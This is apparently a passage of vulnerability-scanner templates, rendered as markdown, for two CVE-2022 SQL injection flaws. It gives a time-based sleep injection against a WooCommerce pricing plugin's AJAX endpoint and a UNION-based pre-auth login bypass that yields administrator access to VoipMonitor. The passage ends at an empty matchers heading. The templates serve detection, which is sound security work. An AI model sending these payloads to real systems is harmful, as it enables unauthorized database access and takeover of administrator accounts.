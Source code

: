 - severity - critical
- tags - cve,cve2022,sqli,wpscan,wordpress,wp-plugin,wp,pricing-deals-for-woocommerce,unauth
## Requests
### Step - 1
```
@timeout: 15s
GET /wp-admin/admin-ajax.php?action=vtprd_product_search_ajax&term=aaa%27+union+select+1,sleep(6),3--+- HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - dsl**
- dsl
    1. duration>=6
    2. status_code == 500
    3. contains(body, "been a critical error")
- condition - and

---
# VoipMonitor - Pre-Auth SQL Injection
## Description
- A SQL injection vulnerability in Voipmonitor GUI before v24.96 allows attackers to escalate privileges to the Administrator level.
- severity - critical
- tags - cve,cve2022,voipmonitor,sqli,unauth
## Requests
### Step - 1
```
POST /api.php HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: application/x-www-form-urlencoded

module=relogin&action=login&pass=nope&user=a' UNION SELECT 'admin','admin',null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null; #

```
### Matchers
